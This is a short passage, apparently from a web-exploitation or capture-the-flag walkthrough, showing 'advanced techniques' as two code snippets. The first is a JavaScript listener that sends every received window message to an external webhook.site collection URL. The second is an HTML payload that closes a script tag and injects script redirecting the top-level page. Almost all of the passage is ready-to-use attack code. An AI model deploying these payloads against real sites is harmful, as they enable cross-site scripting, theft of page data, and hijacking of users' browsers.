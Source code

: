 ### Step 6: Advanced Techniques

**Message Listener with Webhook:**
```javascript
window.addEventListener('message', e => {
  fetch('https://webhook.site/0ba38ed4-8cdf-4d9e-addb-f05f789d08ec?message=' + encodeURIComponent(e.data));
});
```

**Iframe Redirect:**
```html
</script><script>
  top.location = location.href;
</script><script>
```

![Gif](Gif.png)

---